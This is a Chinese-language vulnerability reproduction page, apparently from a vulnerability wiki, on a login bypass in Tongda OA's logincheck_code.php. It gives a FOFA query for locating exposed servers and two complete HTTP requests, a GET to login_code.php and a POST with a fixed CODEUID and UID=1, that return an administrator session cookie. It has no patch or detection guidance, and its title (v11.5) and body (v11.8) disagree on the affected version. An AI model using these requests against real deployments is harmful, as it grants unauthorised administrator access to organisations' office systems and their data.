 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628306796311-4c49ac12-0e18-44ef-a0c2-c6a2d7d0f20a.png)

发送第一个请求包

```php
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](../../../.vuepress/public/img/1628306860352-5e9f9343-742d-4697-abe8-7e5c2534722d.png)

再发送第二个恶意请求

```php
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![img](../../../.vuepress/public/img/1628306918632-bb9e22e6-79b6-4fe1-8839-729fc9b6abe5.png)

获取cookie后访问管理员页面 **/general/index.php**

![img](../../../.vuepress/public/img/1628307007812-02e45309-32af-4513-a89c-00aa30fb9366.png)